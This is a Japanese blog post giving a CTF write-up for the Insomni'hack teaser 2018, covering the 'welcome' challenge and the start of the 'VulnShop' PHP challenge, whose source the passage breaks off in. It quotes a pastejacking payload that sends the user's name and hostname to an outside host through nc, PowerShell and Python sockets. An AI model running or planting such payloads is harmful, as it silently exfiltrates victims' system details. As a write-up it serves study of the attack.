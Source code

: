 ```yaml
---
layout: post
title: Insomni'hack teaser 2018 の write-up
categories: [ctf]
date: 2018-01-22 14:00:00 +0900
---
```


チーム Harekaze で [Insomni'hack teaser 2018](http://teaser.insomnihack.ch/) に参加しました。最終的にチームで 429 点を獲得し、順位は得点 433 チーム中 33 位でした。うち、私は 3 問を解いて 179 点を入れました。

以下、解いた問題の write-up です。

## 競技時間内に解いた問題

### [warmup 37] welcome

`nc welcome.teaser.insomnihack.ch 42315` という問題文が与えられました。

コマンドラインにコピー&ペーストしてみると、[代わりに以下のような文字列が入力されました](https://github.com/dxa4481/Pastejacking)。

```
echo "$(whoami)@$(hostname)"|nc welcome.teaser.insomnihack.ch 42351
say you have been pwned
powershell -noprofile -command "$c=New-Object -TypeName System.Net.Sockets.TcpClient;$c.Connect('welcome.teaser.insomnihack.ch', 42351);$w=New-Object System.IO.StreamWriter($c.GetStream());$w.WriteLine(\"$(whoami)\")|Out-Null;$w.Close();$c.Close();"
exec("""from socket import *\nimport platform, getpass\ns=socket(AF_INET, SOCK_STREAM)\ns.connect(("welcome.teaser.insomnihack.ch",42351))\ns.sendall("{0}@{1}[{2}]".format(getpass.getuser(),platform.node(),platform.system()).encode("utf-8"))\ns.close()""")
clear||cls
nc welcome.teaser.insomnihack.ch 42513
```

横着せずに問題文を自分で入力して実行すると、フラグが得られました。

```
$ nc welcome.teaser.insomnihack.ch 42315
Welcome to the Insomni'hack Teaser 2018!

INS{YOU SHALL NOT PASTE}
```

```
INS{YOU SHALL NOT PASTE}
```

### [web 62] VulnShop

`phpinfo()` の結果と、以下のようなソースコードが与えられました。

```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
    error_reporting(0); session_start();  
    // Anti XSS filter 
    $_REQUEST = array_map("strip_tags", $_REQUEST); 
    // For later, when we will store infos about visitors. 
    chdir("tmp"); 
?> 
<!DOCTYPE html> 
<html> 
    <head> 
        <title>Work in progress...</title> 
        <meta charset="utf-8" /> 
        <meta http-equiv="content-type" content="text/html; charset=utf-8" /> 
        <style> 
            body { 
```